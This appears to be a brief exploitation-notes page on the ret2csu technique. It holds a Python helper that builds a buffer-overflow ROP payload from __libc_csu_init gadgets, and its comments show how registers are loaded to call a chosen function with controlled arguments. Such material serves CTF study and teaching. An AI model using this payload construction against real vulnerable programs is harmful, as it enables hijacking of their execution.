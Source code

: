 # ret2csu



<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;csu(rbx,&nbsp;rbp,&nbsp;r12,&nbsp;r13,&nbsp;r14,&nbsp;r15,&nbsp;last):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">#&nbsp;pop&nbsp;rbx,rbp,r12,r13,r14,r15</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">#&nbsp;rbx&nbsp;should&nbsp;be&nbsp;0,</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">#&nbsp;rbp&nbsp;should&nbsp;be&nbsp;1,enable&nbsp;not&nbsp;to&nbsp;jump</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">#&nbsp;r12&nbsp;should&nbsp;be&nbsp;the&nbsp;function&nbsp;we&nbsp;want&nbsp;to&nbsp;call</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">#&nbsp;rdi=edi=r15d</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">#&nbsp;rsi=r14</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">#&nbsp;rdx=r13</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#63a35c">'a'</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span>&nbsp;<span style="color:#0099cc">0x80</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;fakeebp</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;p64(csu_end_addr)&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;p64(rbx)&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;p64(rbp)&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;p64(r12)&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;p64(</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;r13)&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;p64(r14)&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;p64(r15)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;p64(csu_front_addr)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#63a35c">'a'</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span>&nbsp;<span style="color:#0099cc">0x38</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;p64(last)</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

